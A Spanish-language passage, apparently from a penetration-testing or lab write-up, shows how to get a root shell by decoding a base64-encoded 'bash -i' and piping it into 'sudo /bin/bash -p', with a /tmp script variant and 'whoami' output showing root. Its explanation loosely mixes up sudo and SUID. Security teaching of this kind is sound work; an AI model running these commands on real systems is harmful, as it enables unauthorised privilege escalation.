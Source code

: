 ### Acción:

Ejecutamos el siguiente comando para obtener una shell root:

```bash
echo 'YmFzaCAtaQ==' | sudo /usr/bin/base64 -d | sudo /bin/bash -p
```

---

### Resultado:

```bash
# whoami
root
```

---

## Desglose del comando

- `echo 'YmFzaCAtaQ=='`: es la cadena `bash -i` codificada en base64.
    
- `sudo /usr/bin/base64 -d`: decodifica la cadena para que sea `bash -i`.
    
- `sudo /bin/bash -p`: ejecuta una shell interactiva con privilegios elevados, preservando el entorno SUID.
    
- En conjunto, esto ejecuta una shell root interactiva.
    

---

## Alternativa: Script para escalada con base64

### Acción:

Creamos un pequeño script para automatizar la escalada:

```bash
echo "echo 'YmFzaCAtaQ==' | /usr/bin/base64 -d | /bin/bash -p" > /tmp/priv_esc.sh
chmod +x /tmp/priv_esc.sh
sudo /tmp/priv_esc.sh
```

---

## Explicación:

- Este método usa la decodificación de base64 para inyectar el comando shell.
    
- Ejecutar `/bin/bash -p` con el bit SUID conserva los privilegios elevados.
    
- Así conseguimos una shell root desde un binario con SUID mal configurado.
    

---

